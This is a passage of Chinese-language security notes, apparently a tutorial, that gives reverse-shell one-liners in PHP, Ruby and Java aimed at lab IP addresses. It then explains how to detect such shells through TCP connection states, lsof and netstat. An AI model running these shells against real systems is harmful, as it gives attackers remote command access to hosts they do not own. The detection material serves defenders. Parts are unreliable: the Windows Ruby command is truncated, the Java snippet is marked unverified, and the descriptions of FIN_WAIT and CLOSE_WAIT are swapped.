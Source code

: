 ```````
php -r '$sock=fsockopen("192.168.173.130",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```
![image-20240228171747937](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171747937.png)
## Ruby版本
不依赖于/bin/sh的shell
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.172.130","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
如果目标系统运行Windows (未进行验证)
```powershell
ruby -rsocket -e 'c=TCPSocket.new("192.168.173.130","2333");while(cmd=c.gets);IO.popen(cmd,"r")
```
## java版
未进行验证
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## 检测shell
可以通过对本机进程的状态，网络连接的状态进行排查
在 TCP/IP 协议中，TCP 连接可以有多种状态，不同的状态代表连接处于不同的工作阶段或状态。下面是一些常见的 TCP 连接状态：

- LISTEN // 表示当前主机正在监听并等待传入连接请求。
- SYN_SENT // 表示客户端发送了一个 SYN 包，请求建立连接，并等待服务器回复。
- SYN_RECEIVED // 表示服务器收到了客户端的 SYN 包，并发送了一个 SYN/ACK 包回复，表示准备建立连接。
- ESTABLISHED // 表示连接已成功建立，正在进行数据传输和通信。
- FIN_WAIT_1/FIN_WAIT_2 // 表示连接被远程主机关闭，但本地主机尚未完成所有数据传输操作。
- CLOSE_WAIT // 表示本地主机已经关闭了连接，但远程主机仍在传输数据。
- CLOSING // 表示连接正在两个方向上同时关闭。
- TIME_WAIT // 表示连接已经关闭，但本地主机还在等待可能延迟的数据包。
- LAST_ACK // 表示本地主机发送了一个 FIN 包，请求关闭连接，并等待远程主机的 ACK响应。

对于每个连接，其状态会在TCP头部信息中进行标记，并通过网络工具（如netstat、ss等）进行显示。
检查TCP连接状态可以帮助用户了解网络连接是否正常工作，以及哪些进程或应用程序在使用网络资源，从而进行故障排除和性能分析等操作。
### lsof
lsof是一个常用的系统工具，用于列出当前系统打开的所有文件（包括网络套接字、硬件设备、进程和用户等），以及它们的相关信息和属性。lsof可以帮助用户了解系统中正在运行的进程和它们所使用的文件、端口和套接字，以便进行故障排除、性能调优和安全审计等操作。
下面是 lsof 命令的一些常用选项和用法：

- lsof -i // 列出当前打开的网络套接字和端口。
- lsof -u <username> // 列出指定用户的所有打开文件和进程。
- lsof -p <pid> // 列出指定进程 ID 的所有打开文件和套接字。
- lsof -c <process name> // 列出指定进程名称的所有打开文件和套接字。
- lsof -i :<port> // 列出指定端口的所有监听进程和套接字。
- lsof -i TCP:<port> // 列出指定 TCP 端口的所有监听进程和套接字。
- lsof -i UDP:<port> // 列出指定 UDP 端口的所有监听进程和套接字。
- lsof -n // 禁止主机名解析

需要注意的是，lsof命令需要root或相应权限才能访问所有进程和文件。在使用lsof命令时，请仔细阅读文档并确保了解其功能和用法，以避免对系统造成不必要的影响和损害。
```bash
lsof -n | grep ESTABLISHED
```
![image-20240228172339741](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228172339741.png)
### netstat
netstat是一个常用的网络工具，用于显示当前系统的网络连接和网络统计信息。netstat可以列出打开的端口、监听的端口、网络连接状态、网络接口信息等，并可以输出各种格式的报告以及进行网络故障排除和性能分析等操作。
以下是 netstat 命令的一些常用选项和用法：

- netstat -a // 列出所有打开的端口和套接字。
- netstat -o // 列出所有连接的进程 ID 。
```````